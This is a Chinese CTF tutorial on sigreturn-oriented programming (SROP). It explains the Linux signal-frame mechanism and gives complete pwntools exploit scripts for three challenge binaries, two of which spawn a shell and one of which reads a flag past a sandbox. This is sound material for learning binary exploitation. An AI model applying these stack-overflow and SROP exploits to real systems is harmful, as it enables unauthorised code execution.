# 【Stack】SROP

## 基础知识(来自CTFwiki）

[原文章](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)

### 1.signal 机制

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：



基本步骤如下：

1. 内核向某个进程发送**signal**信号，该进程会被暂时**挂起**，进入内核态。
2. 内核会为该进程保存相应的上下文，**主要是将所有寄存器压****入栈****中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。** 此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。需要注意的是，**这一部分是在用户进程的****地址空间****的。** 之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
3. signal handler 返回后，**内核为执行 sigreturn 系统调用，**为该进程**恢复之前保存的上下文，其中包括将所有压入的寄存器，重新** **pop** **回对应的寄存器，最后恢复进程的执行。**其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。

简单来说就是：先保存各个寄存器中的值（Signal Frame），然后挂起用户进程，然后执行信号处理函数，处理完之后恢复栈和各个寄存器然后继续执行用户进程。

### 2.获取shell

我们假设攻击者可以控制用户进程的栈，那么它就可以伪造一个 Signal Frame，如下图所示，这里以 64 位为例子，给出 Signal Frame 更加详细的信息



当系统执行完 sigreturn 系统调用之后，会执行一系列的 pop 指令以便于恢复相应寄存器的值，当执行到 rip 时，就会将程序执行流指向 syscall 地址，根据相应寄存器的值，此时，便会得到一个 shell。

### 3.system call chains

上面的例子中，只是单独的获得一个 shell。有时候，我们可能会希望执行一系列的函数。只需要做两处修改即可

- **控制栈指针。**
- **把原来 rip 指向的**`syscall` **gadget 换成**`syscall; ret`**gadget。**

这样当每次 syscall 返回的时候，栈指针都会指向下一个 Signal Frame。因此就可以执行一系列的 sigreturn 函数调用。



### 4.需要满足的条件

- **可以通过栈溢出来控制栈的内容**
- **需要知道相应的地址**
  - **"/bin/sh"**
  - **Signal Frame**
  - **syscall**
  - **sigreturn**
- 需要有够大的空间来塞下整个 sigal frame

## 例题

### CTFSHOW 086



伪代码

```C++
int __fastcall main(int argc, const char **argv, const char **envp)
{
  signed __int64 v3; // rax
  signed __int64 v4; // rax

  v3 = sys_write(1u, global_pwn, 0x17u);
  if ( (unsigned __int64)sys_read(0, global_buf, 0x200u) >= 0xF8 )
    __asm { syscall; LINUX - sys_rt_sigreturn }
  v4 = sys_exit(0);
  return 0;
}
```

Exp

```Python
from pwn import *
context.arch = 'amd64'
p = process('./pwn')
elf = ELF('./pwn')
str_bin_sh_offset = 0x100
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = elf.symbols['global_buf'] + str_bin_sh_offset
frame.rsi = 0
frame.rdx = 0
frame.rip = elf.symbols['syscall']
p.send(bytes(frame).ljust(str_bin_sh_offset, b'a') + b'/bin/sh\x00')
p.interactive()
```

这个 str_bin_sh_offset = 0x100的设置，主要是为了**防止缓冲区溢出时覆盖掉 SigreturnFrame的关键数据**，从而保证 sys_rt_sigreturn能够正确执行。

### 360春秋杯_2017_smallest

因为程序非常小，人如其名，主要的代码就六行汇编，执行 **read** 系统调用，实现往**栈顶**写 0x400 字节。



start 函数开始的地址是 0x4000B0。每次执行 start 函数都能从栈顶往下写。

程序执行 start 函数，exp中先往栈顶写入 p64(start) *3，这样就能控制程序不退出（程序中只有 ret 指令能影响栈顶指针），且多次从标准输入中读取。

程序返回，第二次执行 start，写入'\xb3'，使 rax = 1 (read 函数会将读入的字节数赋值给 rax)，改栈上数据的低一字节，即 0x4000B0 --> 0x4000B3，使得程序返回到 0x4000B3，跳过 'xor rax,rax'，使 rax 保持为1，不会被重置为0.

程序返回，第三次执行 <start + 0x3>，因为此时 rax = 1 ，所以这时调用 syscall 将会执行 write(1, &rsp, 0x400)，将会泄露栈上的数据（作用是为了能在后面布置新的 rsp 和计算我们写入的 '/bin/sh' 的位置）。泄露了一个合法的栈地址 stack_addr。





程序返回，第四次执行 start，写入： 程序下一跳的返回地址 p64(start) + 占位符 p64(0) + 构造的 read_frame，目的是让程序能继续跳回 start，并往栈中塞入第一个伪造的 read_frame

程序返回，第五次执行 start，写入 p64(syscall) + ‘\x00’ *(15 - 8)，这时 rax 的值也变成了15。

**read_frame的作用**

下一跳，执行 syscall，进行 **rt_sigreturn**通过 **read_frame** 的数据来布置寄存器，效果如下：

1. rax --> 0, rdi --> 0, rsi --> stack_addr, rdx -->0x400, rip --> syscall, rsp --> stack_addr
2. 布置完寄存器后，程序下一跳将会执行 read(0, stack_addr, 0x400) + 控制栈顶指针指向stack_addr。

下一跳，执行 read(0, stack_addr, 0x400) 的系统调用。我们接着写入：下一跳的返回地址 p64(start) + 占位符 p64(0) + 构造的 execve_frame + b'/bin/sh\x00' (总共 0x110 字节，划重点)。



程序返回，第六次执行 start，写入 p64(syscall) + b'\x00' *(15 - 8)，这时 rax 的值又变成了15(一共写入了15个字节)，作用是调用 sys_rt_sigreturn 。rax = 15 在 Linux x86-64 中是 sys_rt_sigreturn（系统调用号 15）。

下一跳，再执行 syscall，进行 **rt_sigreturn** 通过 **execve_frame** 的数据来布置寄存器，效果如下：

1. rdi --> stack_addr + 0x110 - 0x8, 指向的就是之前写入的 '/bin/sh\x00' 了，它在刚刚发送的 payload 中的偏移，即是 payload的总长度 - 字符串本身长度。
2. rax --> 59, rsi --> 0, rdx --> 0, rip --> syscall (execve('/bin/sh\x00', 0, 0))获得shell

```Python
from pwn import *
context.log_level = 'debug'
context.arch = "amd64"
p = process('./smallest')

start = 0x4000b0
syscall = 0x4000be
payload = p64(start) *3
sleep(0.1)
p.send(payload)

# 将下一跳的返回地址改写为0x4000b3 跳过'xor rax,rax' 使rax保持为1
#gdb.attach(p)
#pause()
sleep(0.1)
p.send(b"\xb3")
# 接收 程序执行write系统调用泄露的栈上数据
stack_addr = u64(p.recv()[8:16])
success("stack_addr: " + hex(stack_addr))
 
# 得到一个栈地址后 让rsp指向此栈地址
# read_frame调用read(0,stack_addr,0x400)  

read_frame = SigreturnFrame(kernel="amd64")
read_frame.rax = constants.SYS_read
read_frame.rdi = 0x0
read_frame.rsi = stack_addr
read_frame.rdx = 0x400
read_frame.rsp = stack_addr
read_frame.rip = syscall

read_frame_payload = p64(start) 
read_frame_payload += p64(0) 
read_frame_payload += bytes(read_frame)
sleep(0.1)
p.send(read_frame_payload)
 
# 通过控制写入的字符数量，调用sigreturn
#gdb.attach(p)
#pause()
goto_sigreturn_payload = p64(syscall) + b"\x00"*(15 - 8) # rax=15,syscall --> sigreturn
sleep(0.1)
p.send(goto_sigreturn_payload)

#execve_frame调用call execv("/bin/sh",0,0)

execve_frame = SigreturnFrame(kernel="amd64")
execve_frame.rax = constants.SYS_execve
execve_frame.rdi = stack_addr + 0x110 - 0x8 # "/bin/sh\x00" addr 
execve_frame.rsi = 0x0
execve_frame.rdx = 0x0
execve_frame.rsp = stack_addr
execve_frame.rip = syscall

execve_frame_payload = p64(start) 
execve_frame_payload += p64(0) 
execve_frame_payload += bytes(execve_frame)
execve_frame_payload += b"/bin/sh\x00"
# 查看 payload 长度,方便计算 'bin/sh\x00' 的相对偏移
success("offset: " + hex(len(execve_frame_payload)))
sleep(0.1)
p.send(execve_frame_payload)

sleep(0.1)
p.send(goto_sigreturn_payload)  

p.interactive()
```

### srop

orw打法



开启了沙箱保护，不能打execve，所以使用ORW的方式来读取flag。





要实现ORW，我们就要构造SROP链。我们先通过一个sigreturn把栈迁移到已知段，这个段要足够长，足以放下Signal Frame，所以可以放到.bss段。

先找到sigreturn的地址`sigreturn_sddr = 0x401296`、syscall_ret的地址`syscall_addr = 0x40129D`和bss段的起始地址：`0x404060`，为了防止我们的操作更改了bss段比较重要的一些进程的数据，我们给bss段的地址加上一段偏移再使用：`bss_addr = 0x404060 + 0x300`。 然后我们执行栈迁移和第二次read操作，通过IDA的数据可知，我们们需要填充0x28个字节的垃圾数据，所以payload1如下：

```Python
frame1 = SigreturnFrame()
frame1.rip = syscall_addr
frame1.rbp = bss_addr + 0x8
frame1.rsp = bss_addr + 0x8
frame1.rax = constants.SYS_read
frame1.rdi = 0
frame1.rsi = bss_addr
frame1.rdx = 0x400

payload1 = b'A'*padding + p64(sigreturn_sddr) + (bytes(frame1))
p.sendline(payload1)
```

bss_addr + 0x8是因为后面要传入'flag\x00\x00\x00\x00'

接着打orw

open部分

```Python
frame2 = SigreturnFrame()
frame2.rip = syscall_addr
frame2.rbp = bss_addr + 0x8 + 0x100
frame2.rsp = bss_addr + 0x8 + 0x100
frame2.rax = constants.SYS_open
frame2.rdi = bss_addr
frame2.rsi = 0x0
frame2.rdx = 0x0
payload2 = b'flag' + b'\x00'*0x4 + p64(sigreturn_sddr) + (bytes(frame2))
```

read部分

```Python
frame3 = SigreturnFrame()
frame3.rip = syscall_addr
frame3.rbp = bss_addr + 0x8 + 0x208
frame3.rsp = bss_addr + 0x8 + 0x200
frame3.rax = constants.SYS_read
frame3.rdi = 0x3
frame3.rsi = bss_addr
frame3.rdx = 0x30
payload3 =  p64(sigreturn_sddr) + (bytes(frame3))
```

write部分

```Python
frame4 = SigreturnFrame()
frame4.rip = syscall_addr
frame4.rax = constants.SYS_write
frame4.rdi = 0x1
frame4.rsi = bss_addr
frame4.rdx = 0x30
payload4 =  p64(sigreturn_sddr) + (bytes(frame4))
```

exp

```Python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf=ELF('./srop')
p = process('./srop')

padding = 0x28

bss_addr = 0x404060 + 0x300
sigreturn_sddr = 0x401296
syscall_addr = 0x40129D

frame1 = SigreturnFrame()
frame1.rip = syscall_addr
frame1.rbp = bss_addr + 0x8
frame1.rsp = bss_addr + 0x8
frame1.rax = constants.SYS_read
frame1.rdi = 0
frame1.rsi = bss_addr
frame1.rdx = 0x400

payload1 = b'A'*padding + p64(sigreturn_sddr) + (bytes(frame1))
p.sendline(payload1)

frame2 = SigreturnFrame()
frame2.rip = syscall_addr
frame2.rbp = bss_addr + 0x8 + 0x100
frame2.rsp = bss_addr + 0x8 + 0x100
frame2.rax = constants.SYS_open
frame2.rdi = bss_addr
frame2.rsi = 0x0
frame2.rdx = 0x0
payload2 = b'flag' + b'\x00'*0x4 + p64(sigreturn_sddr) + (bytes(frame2))

frame3 = SigreturnFrame()
frame3.rip = syscall_addr
frame3.rbp = bss_addr + 0x8 + 0x208
frame3.rsp = bss_addr + 0x8 + 0x200
frame3.rax = constants.SYS_read
frame3.rdi = 0x3
frame3.rsi = bss_addr
frame3.rdx = 0x30
payload3 =  p64(sigreturn_sddr) + (bytes(frame3))

frame4 = SigreturnFrame()
frame4.rip = syscall_addr
frame4.rax = constants.SYS_write
frame4.rdi = 0x1
frame4.rsi = bss_addr
frame4.rdx = 0x30
payload4 =  p64(sigreturn_sddr) + (bytes(frame4))

p.send(payload2 + payload3 + payload4)

p.interactive()
```
